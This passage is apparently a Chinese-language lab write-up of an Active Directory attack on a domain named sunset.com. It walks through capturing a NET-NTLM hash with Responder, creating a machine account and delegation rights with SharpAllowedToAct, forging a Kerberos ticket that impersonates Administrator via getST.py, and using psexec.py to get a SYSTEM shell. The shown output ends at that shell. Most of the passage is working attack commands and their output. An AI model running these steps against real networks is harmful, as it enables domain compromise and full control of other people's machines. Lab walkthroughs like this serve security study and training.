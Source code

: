 开启`Responder`准备捕捉`NET-NTLM-HASH` ，通过`dir`（别的也行）访问开启`Responder`的机器

捕捉到后，可以看到`IIS`出网时`SUNSET\WEB-SERVER$` 是机器用户，而不是本地用户

![image.png](image%2062.png)

利用 https://github.com/pkb1s/SharpAllowedToAct 创建用户

思路和常规利用的思路差不多，都是用当前用户身份创建机器用户并配置委派属性

(这里不知道哪里出了问题，会提示`[!] Cannot enumerate domain` 扒了下程序的源码说是找不到域控)

```jsx
C:\inetpub\wwwroot\user\SharpAllowedToAct.exe -m hacker -p 123456 -t WEB-SERVER -d sunset.com
```

成功添加主机后，剩下的操作和上面的操作一样

```jsx
getST.py -dc-ip 192.168.111.167 -spn cifs/WEB-SERVER.sunset.com -impersonate Administrator sunset.com/test\$:123456
```

```jsx
export KRB5CCNAME=Administrator@cifs_WEB-SERVER.sunset.com@SUNSET.COM.ccache 
```

```jsx
psexec.py -no-pass -k WEB-SERVER.sunset.com -dc-ip 192.168.111.167

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on WEB-SERVER.sunset.com.....
[*] Found writable share ADMIN$
[*] Uploading file zsYktUZW.exe
[*] Opening SVCManager on WEB-SERVER.sunset.com.....
[*] Creating service wcbl on WEB-SERVER.sunset.com.....
[*] Starting service wcbl.....
[!] Press help for extra shell commands
[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
Microsoft Windows [�汾 6.1.7601]

[-] Decoding error detected, consider running chcp.com at the target,
map the result with https://docs.python.org/3/library/codecs.html#standard-encodings
and then execute smbexec.py again with -codec and the corresponding codec
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32> whoami
nt authority\system
```